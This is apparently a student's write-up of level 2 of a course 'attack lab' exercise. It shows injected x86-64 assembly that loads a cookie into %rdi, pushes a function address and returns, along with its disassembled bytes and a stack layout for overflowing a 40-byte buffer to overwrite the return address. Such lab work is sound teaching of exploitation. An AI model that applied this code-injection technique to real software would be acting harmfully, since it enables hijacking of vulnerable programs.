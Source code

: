 ### What we need:
- We need to set register `%rdi` to the cookie.
- We also need to add the address of `touch2` to the stack.

### What to do: First Method
- We could use a `mov` instruction to set register `%rdi` to the cookie.
- We could use a `push` instruction to push the address of `touch2` onto the stack.

We can construct our injected code:
```c
    movq     $0x59B997FA, %rdi            # move cookie to %rdi
    pushq    $0x4017EC                    # push address of touch2 onto stack
    ret
```

<br>

We need to know the byte representation of the above assembly code. We could achieve this with the following instructions:
```
gcc -c ctarget.l2.code.s            // creates ctarget.l2.code.o
objdump -d ctarget.l2.code.o        // disassemble it
```


The disassembled code is as follows:
```c
./ctarget.l2.code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

<br>

We can now consider our stack structure:

<center>

|  Stack Structure      | Size     |
| --------------------- | -------- |
| address of `mov` (becomes address of `touch2` after push below) | This overwrites original return address |
| data                  | 27 bytes (this combined with the below 3 instructions fill up the 40-byte `getbuf` stack frame) |
| `ret`                 | 1 byte   |
| `push 0x4017EC`       | 5 bytes  |
| `mov 0x59b997fa,%rdi` | 7 bytes  |

</center>
